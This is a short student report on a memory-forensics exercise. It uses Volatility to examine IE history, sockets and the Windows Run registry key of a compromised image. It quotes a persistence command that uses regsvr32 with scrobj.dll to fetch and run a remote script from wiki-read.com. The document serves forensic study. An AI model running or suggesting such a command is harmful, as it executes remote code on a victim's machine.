 ```yaml
---
author: Juan Diego Llano Miraval
title: Reporte Analisis Forense
date: 18/05/2024
---
```


![logo_it_uc3m](Logo-uc3m.jpg)

# Report for Memory Analysis - Atenea

Juan Diego Llano Miraval

Fecha: 18/05/2024

## procedure

The first step is to check the profile of the image with volatility:

![profile](profile.png)

while checking the process, the connections, and the sockets, I found on the iehistory:

![ie](ie.png)

here we can see Location: Visited: Administrador@msni://install.mar@/xgl_engine.htm and Location: Visited: Administrador@res://ieframe.dll/tabswelcome.htm



and the IP that is in the sockets:

![sock](sock.png)

we also check the Microsoft\Windows\CurrentVersion\Run registry, first we locate the software hive:

![hive](hive.png)

from the address of the software hive, we use it as offset to get the key:

![key](key.png)

From here we can see ```regsvr32 /u /s /i:http://wiki-read.com/info.txt scrobj.dll``` the use of regsvr32 to execute code from an url is a known technique from malicious actors. This is the domain we were looking for.